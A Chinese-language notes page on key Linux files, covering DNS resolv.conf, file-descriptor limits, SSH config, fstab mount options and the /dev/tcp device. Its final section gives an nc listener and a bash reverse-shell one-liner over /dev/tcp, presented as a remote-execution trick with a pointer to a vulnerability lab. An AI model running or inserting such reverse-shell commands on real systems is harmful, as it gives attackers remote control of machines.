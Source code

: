 

Linux 的配置文件按道理应全部放到 /etc 目录。但是这里也记录一些 Linux 中的关键文件

## DNS 配置文件

`/etc/resolv.conf` 文件保存有 DNS 的配置。其内容如下：

- nameserver表示解析域名时使用该地址指定的主机为域名服务器。其中域名服务器是按照文件中出现的顺序来查询的,且只有当第一个nameserver没有反应时才查询下面的nameserver。

- domain　　　声明主机的域名。很多程序用到它，如邮件系统；当为没有域名的主机进行DNS查询时，也要用到。如果没有域名，主机名将被使用，删除所有在第一个点( .)前面的内容。

- search　　　它的多个参数指明域名查询顺序。当要查询没有域名的主机，主机将在由search声明的域中分别查找。domain和search不能共存；如果同时存在，后面出现的将会被使用。

- sortlist　　允许将得到域名结果进行特定的排序。它的参数为网络/掩码对，允许任意的排列顺序。

## 初始化配置文件

`/etc/rc.local` 这个文件用于开启启动一些服务，也可以添加一些 mount 挂载命令，在开启启动时进行挂载。



## 网络命名空间目录

`/var/run/netns/` 中



## 调整文件描述符数量

因为 Linux 系统为每个 TCP 建立连接时，都要创建一个 socket 句柄，每个 socket 句柄同时也是一个文件句柄。而系统对用户打开的文件句柄是有限制的，看到这里，也就理解了为什么在高并发时会出现 "too many open files"。

显示当前文件描述符数量：

```
ulimit -n
```

在 `/etc/security/limits.conf` 最后添加如下四行调整最大文件描述符和最大进程数量：

```
* soft nproc  65535
* hard nproc  65535
* soft nofile 65535
* hard nofile 65535
```

重启当前命令行生效

> 注意
> soft nofile （软限制）是指Linux在当前系统能够承受的范围内进一步限制用户同时打开的文件数
> hard nofile （硬限制）是根据系统硬件资源状况(主要是系统内存)计算出来的系统最多可同时打开的文件数量
> 通常软限制小于或等于硬限制。
> `*` 表示所有用户，也可以指定具体的用户名
> 所有进程打开的文件描述符数不能超过 /proc/sys/fs/file-max
> 单个进程打开的文件描述符数不能超过user limit中nofile的soft limit
> nofile的hard limit不能超过/proc/sys/fs/nr_open

上面的修改只是对用户的单一进程允许打开的最大文件数进行的设置。但是Linux系统对所有用户打开文件数也有限制（硬限制），一般情况下，不用修改此值。

```Bash
# 查看所有用户打开文件数的最大限制（此值与硬件配置有关）
cat /proc/sys/fs/file-max
```

但是，文件数再大，随着并发量的上升，也总有用完的时候。这时候再看 “文件都可以用「打开(open) –> 读写(write/read) –> 关闭(close)」模式来进行操作”这句话，就会想到，可以把已经用过的文件句柄释放掉，来减少资源的占用，这就又涉及到了资源重新利用和回收的问题。有时候查看端口有特别多的 `TIME_WAIT` 时，就是因为连接本身是关闭的，但资源还没有释放。

## 命令行终端提示符

常用的命令行标识符为：

```bash
export PS1='[\u@\h \W]\$ '
```



## CA 证书目录

`/etc/pki/ca-trust/source/anchors/`

把CA证书放到这个目录之后，执行 `update-ca-trust` 更新证书。



## SSH 默认配置

ssh 连接设置默认端口配置文件：

```
$ cat ～/.ssh/config 
Host node46
    Hostname node46
    User root
    Port 22222
Host node47
    Hostname node47
    User root
    Port 22222
Host node49
    Hostname node49
    User root
    Port 22222
```



## 磁盘挂载配置文件

磁盘挂载的配置文件是 `/etc/fstab`，注意这个文件是用于开机自动挂载的，如果开机时找不到挂载的磁盘，就会造成开机失败，需要先进入安全模式改这个文件再开机，所以临时挂载的磁盘不要房到这个目录。

下面是一个配置示例：

```
UUID=c5e73700-97ac-484d-82bf-2c9e670bc4ab /data1  xfs   defaults,noatime,nodiratime        0 0
UUID=6ae6bbb3-392f-4a1b-8f2c-baa4e753ec67 /data2  xfs   defaults,noatime,nodiratime        0 0
```

这里最好写 UUID 可以唯一识别一个磁盘的文件系统。

#### noatime,nodiratime

在 Linux 中，有以下几种时间：

| 简名  | 全名        | 中文名   | 含义                                     |
| ----- | ----------- | -------- | ---------------------------------------- |
| atime | access time | 访问时间 | 文件中的数据库最后被访问的时间           |
| mtime | modify time | 修改时间 | 文件内容被修改的最后时间                 |
| ctime | change time | 变化时间 | 文件的元数据发生变化。比如权限，所有者等 |

其中，atime 会经常变化，为了提高文件系统IO性能，会在挂载文件系统的时候指定“noatime,nodiratime”参数，意味着当访问一个文件和目录的时候，access time都不会更新。

通过以下命令可以查看文件的各种时间：

```bash
$ stat test.txt
```

#### 转储频率

    0：从不备份
    1：每日备份
    2：每隔一天备份


#### 自检次序：

```
0: 不自检
1：首先自检，通常只能被/使用；
2：等数字为1的自检完成后，再进行自检
```





## /dev/tcp

Linux中的一个特殊文件： /dev/tcp  打开这个文件就类似于发出了一个socket调用，建立一个socket连接，读写这个文件就相当于在这个socket连接中传输数据。

实验，在一台机器上(10.100.3.1)启动一个 TCP 端口：

```bash
$ nc -lvvp 7777
```

- -l, --listen               监听 TCP
- -v, --verbose              设置详细级别（可多次使用）
- -p, --source-port port     指定使用的端口

在另一台机器(10.100.3.2)上执行：

```bash
$ echo "hello" > /dev/tcp/10.100.3.1/7777
```

就会往这个 TCP 端口中写入数据，写完后就会退出。



#### 远程执行

这里有个巧妙的利用：  [漏洞实验.md](SSH/漏洞实验.md) 

```bash
$ bash -i >& /dev/tcp/10.100.3.1/7777 0>&1
```

`bash -i` 是启动一个新的命令行，`bash -i >&` 是将输入和输出重定向到 TCP 连接，`0>&1` 将标准输入和标准输出重定向到一个地方，即 TCP 连接中，这样就实现了类似远程执行的功能。

这种是需要两端配合来远程执行，但是通过 scp 的漏洞可以实现在一方操作之后就可以远程执行。

> 关于重定向：https://www.runoob.com/linux/linux-shell-io-redirections.html
>
> `n >& m`  将输出文件 m 和 n 合并。
>
> 需要注意的是文件描述符 0 通常是标准输入（STDIN），1 是标准输出（STDOUT），2 是标准错误输出（STDERR）。


















